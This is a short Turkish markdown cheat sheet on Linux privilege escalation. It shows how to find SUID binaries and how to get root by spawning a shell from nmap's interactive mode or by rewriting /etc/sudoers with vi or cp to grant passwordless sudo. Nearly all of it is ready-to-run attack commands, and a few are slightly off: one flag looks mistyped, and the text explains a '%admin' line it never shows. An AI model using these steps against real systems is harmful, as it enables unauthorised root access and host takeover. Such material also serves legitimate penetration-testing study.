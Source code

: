 ## Suidbit İle Yetki Yükseltme

`find / -perm -4000 -exec ls lba {} \; 2> /dev/null`

Yukarıdaki komut sistemdeki **suidbite** sahip olan bütün dosyaları listeler.

### Nmap suidbit ile yetki yükseltme

```bash
nmap --interactive
!sh
```

### vi suidbit ile yetki yükseltme

`vi /etc/sudoers` dosyasını açıp kullanıcımıza `[kullanici_adi] ALL=(ALL:ALL) ALL NOPASSWD: ALL` şeklinde yetki ekliyoruz. Burada `%admin` ifadesi **admin** grubunu belirtir. Daha sonra **ESC** basıp `wq!` komutunu vi ye veridikten sonra `sudo su` diyerek **root** olabiliyoruz.

### cp ile yetki yükseltme

```shell
cp /etc/sudoers ~/
cd ~/ 
nano sudoers
```

> root    ALL=(ALL:ALL) ALL NOPASSWD:ALL
>
> %sudo   ALL=(ALL:ALL) ALL NOPASSWD:ALL

```bash
cp sudoers /etc/sudoers
sudo su 
```

